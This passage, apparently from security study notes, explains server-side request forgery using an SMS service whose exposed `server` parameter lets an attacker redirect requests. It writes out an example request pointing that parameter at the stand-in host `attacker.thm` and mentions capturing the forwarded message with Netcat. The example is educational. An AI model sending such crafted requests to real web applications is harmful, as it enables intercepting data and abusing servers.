 ## SSRF practical
![[owasp7.png]]
By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider.

**To achieve this, the attacker would only need to make the following request to your website:**
```python
https://www.mysite.com/sms?server=attacker.thm&msg=ABC
```

**This would make the vulnerable web application make a request to:**
```python
https://attacker.thm/api/send?msg=ABC
```

**You could then just capture the contents of the request using Netcat:**
![[owasp8.png]]
